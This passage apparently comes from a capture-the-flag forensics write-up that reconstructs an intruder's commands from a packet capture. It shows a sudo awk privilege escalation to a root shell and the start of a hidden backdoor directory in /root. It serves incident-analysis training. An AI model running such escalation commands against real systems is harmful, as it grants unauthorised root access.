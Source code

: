 Looking more at the commands (17th TCP Stream) the user executes we can see they try to use `awk` as it's in `sudo -l`:

```bash
[tareq@localhost uploads]$ sudo -l
sudo -l
Matching Defaults entries for tareq on localhost:

    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,

    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",

    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",

    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",

    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",

    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",

    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin



User tareq may run the following commands on localhost:

    (ALL) NOPASSWD: /usr/bin/awk

[tareq@localhost uploads]$ sudo awk 'BEGIN {system("/bin/sh")}'
sudo awk 'BEGIN {system("/bin/sh")}'
```

Flag: `KCTF{awk}`

### The Hidden Door (capture3.pcapng)

We need to find where the backdoor was stored and what port it was retrieved from.

Continuing to look through the 17th TCP Stream, there is some suspicious activity:

```bash
sh-5.1# cd /root
cd /root
sh-5.1# ls
ls
anaconda-ks.cfg
sh-5.1# mkdir .sys
mkdir .sys
sh-5.1# ls
ls
anaconda-ks.cfg
sh-5.1# ls -la
ls -la
total 48
dr-xr-x---.  5 root root 4096 Jan 20 16:48 .
dr-xr-xr-x. 18 root root  235 Jan 19 17:39 ..
-rw-------.  1 root root 1001 Jan 19 17:45 anaconda-ks.cfg
-rw-------.  1 root root 1126 Jan 20 15:46 .bash_history
-rw-r--r--.  1 root root   18 May 11  2022 .bash_logout
-rw-r--r--.  1 root root  141 May 11  2022 .bash_profile
-rw-r--r--.  1 root root  429 May 11  2022 .bashrc
drwxr-xr-x.  3 root root   22 Jan 19 18:41 .config
-rw-r--r--.  1 root root  100 May 11  2022 .cshrc
-rw-------.  1 root root   20 Jan 20 15:33 .lesshst
-rw-------.  1 root root  169 Jan 19 19:11 .mysql_history
drwx------.  2 root root    6 Jan 19 17:39 .ssh
```